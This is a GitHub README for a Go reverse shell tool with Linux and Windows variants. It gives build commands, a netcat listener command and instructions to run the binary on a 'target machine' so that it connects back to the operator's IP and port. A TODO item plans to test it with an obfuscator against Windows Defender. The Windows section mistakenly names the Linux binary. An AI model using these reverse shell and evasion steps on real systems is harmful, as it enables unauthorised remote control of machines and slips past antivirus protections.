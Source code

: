 [![forthebadge](https://forthebadge.com/images/badges/60-percent-of-the-time-works-every-time.svg)](https://forthebadge.com) [![forthebadge](https://forthebadge.com/images/badges/0-percent-optimized.svg)](https://forthebadge.com) [![forthebadge](https://forthebadge.com/images/badges/certified-snoop-lion.svg)](https://forthebadge.com)
# GoRevShells
Basic reverse shell for linux and windows written in Go. Based off of @yougg's https://gist.github.com/yougg/b47f4910767a74fcfe1077d21568070e

## How to run (basic compilation; plenty of guides online on how to specify target operating system & architecture)
```
$ git clone https://github.com/NihilistPenguin/GoRevShells.git
$ cd GoRevshells
```
#### For linux target:
```
$ cd linux
$ GOOS=linux go build linrev.go
```
Start netcat listener on host: `$ nc -nvlp PORT`<br>
On target machine: `$ ./linrev IP:PORT` or `$ ./linrev` (uses value set in *const default_host* of linrev.go file)

#### For windows target:
```
$ cd windows
$ GOOS=windows go build winrev.go
```
Start netcat listener on host: `$ nc -nvlp PORT`<br>
On target machine: `$ .\winrev IP:PORT` or `$ .\linrev` (uses value set in *const default_host* of linrev.go file)


## TODO:
- add parameter for verbose output
- test it with obfuscator against Windows Defender
- other stuff I can't think of right now

